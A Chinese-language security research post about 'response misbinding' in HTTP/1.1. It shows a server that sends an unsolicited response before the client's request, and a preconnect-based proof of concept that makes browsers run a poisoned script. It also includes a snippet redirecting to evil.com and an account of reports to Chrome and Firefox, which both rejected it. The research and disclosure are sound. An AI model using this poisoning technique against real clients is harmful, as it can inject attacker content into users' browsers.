## 先備知識

- [HTTP/1.1 Message](./anatomy-of-an-http-message.md)

  

- [HTTP/1.1 Keep-Alive, Connection](./keep-alive-and-connection.md)

  

## 前言

在 HTTP/1.1 的世界，client 在一條 TCP connection 發送多個 HTTP request，server 會依照 client 發送的順序來依序回應

用 Node.js 架個 `http.Server` 驗證看看

```js
import http from "http";

const httpServer = http.createServer((req, res) => res.end(req.url));
httpServer.listen(5000);
```

依序發送三個 HTTP request

1. `GET /request1 HTTP/1.1\r\nHost: 127.0.0.1:5000\r\n\r\n`
2. `GET /request2 HTTP/1.1\r\nHost: 127.0.0.1:5000\r\n\r\n`
3. `GET /request3 HTTP/1.1\r\nHost: 127.0.0.1:5000\r\n\r\n`

用 [Wireshark](https://www.wireshark.org/download.html) 抓包，可以清楚地看到 request / response 一來一往的順序



可以畫成以下時序圖



## "Response Misbinding" 圖解

**如果 server 在第一包 HTTP request 送出以前，就 "偷塞" 了一包 HTTP response，那 request / response 的 binding 會亂掉嗎？**

我想測試的情境如下：



## 現實難點

正常情況下，client 跟 server 進行 TCP 3-way handshake 之後，client 馬上就會發送第一包 HTTP request，server 很難搶在第一包 HTTP request 送出之前，就把 "poisoned" HTTP response 提前送出

由於我主線研究是 Node.js，所以用 Node.js 來寫 PoC 也很正常，但缺點是 `net` 或是 `http` 模組暴露的 API 太高階了，我很難精準的控制 "poisoned" HTTP response 在 TCP 3-way handshake 之後立即送出

使用 `net` 來建立 HTTP server，並且嘗試在 TCP connection 建立後，立即塞入 "poisoned" HTTP response

```js
import net from "net";

const response =
  "HTTP/1.1 302 Found\r\nLocation: http://evil.com\r\nContent-Length: 0\r\n\r\n";
const server = net.createServer();
server.listen(5000);
server.on("connection", (socket) => socket.write(response));
```

使用多個 HTTP client（curl, python requests, php cURL）發送 HTTP request，發現 "poisoned" HTTP response 根本跑不贏第一包 HTTP request，最終都會落到正常的 request / response 順序



如果要達成我的目標

1. 第一包 HTTP request 要盡可能地晚一點送（但又必須符合正常 HTTP client 的行為）
2. "poisoned" HTTP response 要盡可能地早一點送（有想過寫個 C 語言來達到比較精準的 TCP bytes 控制，但感覺這條路的 attack complexity 很高，因為 race-window 很短）

## 轉機

我詢問了 AI



AI 的回覆讓我有了新的想法



看到 "preconnect" 這個單字，讓我立即想到瀏覽器的

```html
<link rel="preconnect" href="https://fonts.gstatic.com" />
```

可以用來預先建立 TCP 連線（若 https 的話則是 TCP + TLS），並且 preconnect 在 [前幾篇文章](./link-html.md) 也有介紹到

## 時序圖

測試情境如下：

1. 使用者用瀏覽器訪問一個正常網站 `http://127.0.0.1:5000`
2. 該網站的 HTML 含有 `<link rel="preconnect" href="http://127.0.0.1:5001" />`
3. 瀏覽器跟 `127.0.0.1:5001` 建立 TCP 連線後，`127.0.0.1:5001` 立即偷塞一包 "poisoned" HTTP response 給瀏覽器
4. 該網站的 HTML 後續載入 `http://127.0.0.1:5001/script1.js`，**response 會不會吃到 "poisoned" 那包**？



## PoC

1. 創建 `index.html`

```html
<head>
  <!-- Ask the browser to establish a TCP connection to 127.0.0.1:5001 early.
      This does not guarantee reuse, but it increases the chance that
      the later requests will use the same connection. -->
  <link rel="preconnect" href="http://127.0.0.1:5001/" />
</head>
<body>
  <script>
    // Use "setTimeout" to ensure the "preconnected" TCP connection is reused.
    // In a real page, HTML parsing/rendering can naturally delay when the
    // <script> element at the end of <body> is appended or fetched.
    // For this minimal PoC, "setTimeout" is used to make the timing explicit.
    setTimeout(() => {
      const script1 = document.createElement("script");
      script1.src = "http://127.0.0.1:5001/script1.js";
      document.body.appendChild(script1);
    }, 1000);
  </script>
</body>
```

2. 創建 `http_server.cjs`（在 `127.0.0.1:5000` 啟一個 `http.Server`，用來 serve 這個靜態 html）

```js
const { readFileSync } = require("fs");
const http = require("http");
const { join } = require("path");

const normalHtmlServer = http.createServer((req, res) => {
  if (req.url === "/") {
    res.end(readFileSync(join(__dirname, "index.html")));
    return;
  }
  return res.end();
});
normalHtmlServer.listen(5000, () => console.log("listening on port 5000"));
```

3. 創建 `malicious_server.cjs`（在 `127.0.0.1:5001` 啟一個 malicious `http.Server`）

```js
const http = require("http");

const maliciousServer = http.createServer((req, res) => {
  if (req.url === "/script1.js") return res.end("alert('script1')");
  return res.end();
});
maliciousServer.on("connection", (socket) => {
  // Poison the preconnected TCP socket by sending a complete HTTP response
  // before the first HTTP request is received.
  socket.write("HTTP/1.1 200 OK\r\nContent-Length: 15\r\n\r\nalert('poison')");
});
maliciousServer.listen(5001, () => console.log("listening on port 5001"));
```

4. 用瀏覽器打開 http://127.0.0.1:5000/ ，看到彈出視窗 "poison"
   
5. 用 wireshark 抓包，確認 "poisoned" HTTP response 確實早於 `GET /script1.js HTTP/1.1`
   

## 操作影片

我將這個案例回報給 Chrome 跟 Firefox，並且附上了操作影片

- [poc-demo-chrome](../../static/img/poc-demo-chrome.mov)
- [poc-demo-firefox](../../static/img/poc-demo-firefox.mp4)

## 收到回覆

在 1 個工作天以內，我就收到了 Chrome 跟 Firefox 的回應，兩者皆認為這不是 security vulnerability

Chrome 的回覆：



Firefox 的回覆：



我認為 Firefox 的回覆比較專業，因為回覆的人有理解整個 PoC 的核心概念，並且也提出了這個 race condition 在實務上的判斷難點

- data could come in between sniffing and GET

不過最後一句話，激起了我的好奇心

- This is not a spec violation

## Associating a Response to a Request

引用 [RFC9112 Section 9.2](https://datatracker.ietf.org/doc/html/rfc9112#section-9.2) 原文：

```
If a client receives data on a connection that doesn't have outstanding requests, the client MUST NOT consider that data to be a valid response; the client SHOULD close the connection
```

我認為 Chrome 跟 Firefox 在這點是違反規範的

## 小結

實務上，違反規範 **不一定等於** 資安漏洞。這個案例也讓我開始思考：

- HTTP client 的 finding 要被視為 vulnerability，通常不能只靠 spec violation
- 真正關鍵的是：attacker 能否因為這個 BUG **獲得新的能力**
- 這個 **新的能力** 有沒有辦法造成資安漏洞（DoS, Response Queue Poisoning ...）
